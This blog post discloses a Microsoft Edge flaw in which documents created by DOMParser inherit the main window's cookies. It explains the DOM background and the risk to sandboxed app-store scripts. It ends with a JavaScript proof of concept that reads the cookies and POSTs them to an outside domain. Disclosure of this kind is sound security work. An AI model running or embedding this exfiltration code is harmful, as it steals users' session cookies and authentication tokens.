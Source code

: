 ```yaml
---
layout: post
title: Microsoft Edge Cookie Bypass
---
```


<img src="{{ site.baseurl }}/assets/2018-7-24/edge.jpg" alt="edge"/>

### Overview
Recently I stumbled across a security vulnerability in Microsoft Edge browser caused by an improper implementation of the official DOM specifications. This implementation issue was caused by an incorrectly defined inheritance chain between the main window document and HTMLDocument type objects created by the DOMParser API.

### Technical Background
After reading through dozens of commits from several Chrome and FireFox members on the Whatwg GitHub repositories, I have come to the conclusion that the official spec for document has been in flux for the past few years and Microsoft has struggled to keep up with the changes. 

Before diving into the exploit, here is a quick overview of how the DOM's implementation of document SHOULD work:

"document" has migrated from a class to an abstract interface, and should not be instantiated directly. There is still a constructor for creating document objects from the document in some browsers, but it is now deprecated. 

Rather than creating "document" objects, document is now an interface defining how document-style objects should appear and behave. All instantiated document objects should be from the classes XMLDocument or HTMLDocument. Both of whom look very similar except for a few properties and different algorithms under the hood. In a prior world another document class called SVGDocument existed, but SVG document has been merged with XMLDocument as SVG is a subset of XML and maintaining one XML document class is much easier since XML presents a large security risk as-is. The main window document in all browsers is now an HTMLDocument by the way. Safari still seems to have a global called SVGDocument but further analysis shows it is simply an alias for XMLDocument.

As document is now an abstract interface, XMLDocument and HTMLdocument must inherit their properties and methods from document. The state should NOT be inherited however. 

### Exploit
A little-known browser API, DOMParser() allows the creation of document objects when provided a string and mime-type as the input.

DOMParser() documentation is shaky, with MDN having a version about two years old from what I can see from Git commits. It's generally a lesser-used API, and it's really a big security risk with similar exploits to Blob() due to it's reliance on raw input data.

Providing the DOMParser() with an HTML type input produces a document of type HTMLDocument. This document is independent of the main window document, and should not inherit any properties from the main window document. 

However, in Microsoft Edge - main window document cookies are inherited. I've attempted to reproduce on Chrome and FireFox as well. Chrome fixed the issue before I even found it, and it seems to have never existed in FireFox. 

This is important, because it can be used as a bypass on almost any web-based app store. For example, the Slack app exchange attempts to containerize JavaScript from third-party developers in your Slack instance so that it cannot leach information from your conversations and send it back to it's own servers. With this bypass, any information stored in the main window cookies is accessable to a third party script even though the addon-app has been contained and does not have direct access to the main window cookies. 

I have tried this on a number of web based app-exchanges and sites that allow custom HTML/CSS/JS customization and all have been successful at accessing the cookies on Edge - often taking the authentication tokens with it.

Here is a proof of concept exploit:

```javascript
var parser = new DOMParser();
var html = parser.parseFromString('', 'text/html');
var cookies = html.cookie;
var http = new XMLHttpRequest();
var url = 'http://www.save-the-cookies.com';
var params = `cookies=${JSON.stringify(cookies)}`;
http.open('POST', url, true);
http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
http.onreadystatechange = function() {
    if(http.readyState == 4 && http.status == 200) {
        alert('I stole your cookies!');
    }
}
http.send(params);
```